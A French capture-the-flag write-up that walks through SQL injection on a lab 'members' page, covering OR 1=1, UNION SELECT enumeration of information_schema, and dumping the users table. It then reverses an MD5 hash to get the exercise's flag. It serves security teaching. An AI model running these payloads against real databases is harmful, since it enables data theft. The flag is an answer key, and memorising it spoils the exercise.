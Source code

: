 # SQL Injection Members

- On voit que dans cette entrée il y a une injection SQL
- On commence donc par récupérer toutes les données
```
# Injection
1 OR 1=1
# Result
ID: 1 OR 1=1 
First name: Barack Hussein
Surname : Obama

ID: 1 OR 1=1 
First name: Adolf
Surname : Hitler

ID: 1 OR 1=1 
First name: Joseph
Surname : Staline

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```
- Une entrée s'apelle GetThe Flag. On comprend donc qu'il faut y récupérer les autres colonnes
- On récupère le nom de notre Database
```
# Injection
1 UNION SELECT version(),database()
# Result
ID: 1 UNION SELECT version(),database()
First name: 5.5.44-0ubuntu0.12.04.1
Surname : Member_Sql_Injection
```
- On récupère ensuite la table
```
# Injection
1 UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=database()
# Result
ID: 1 UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=database()
First name: 1
Surname : |users|
```
- Puis les différentes colonnes
```
# Injection
1 UNION ALL SELECT column_name,table_name from information_schema.columns
# Result
ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: user_id
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: first_name
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: last_name
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: town
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: country
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: planet
Surname : users

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns
First name: Commentaire
Surname : users
```
- Maintentant on peut récupérer les différentes informations
```
# Injection
1 UNION SELECT concat(user_id,char(58),first_name,char(58),last_name,char(58),town,char(58),country,char(58),planet,char(58),Commentaire,char(58),countersign),2 FROM users
# Result
First name: 5:Flag:GetThe:42:42:42:Decrypt this password -> then lower all the char. Sh256 on it and it's good !:5ff9d0165b4f92b14994e5c685cdce28
```
- On fait donc ce que nous dit le commentaire
- On voit qu'il y a un hash. On le reverse donc sur [internet](https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28)

5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
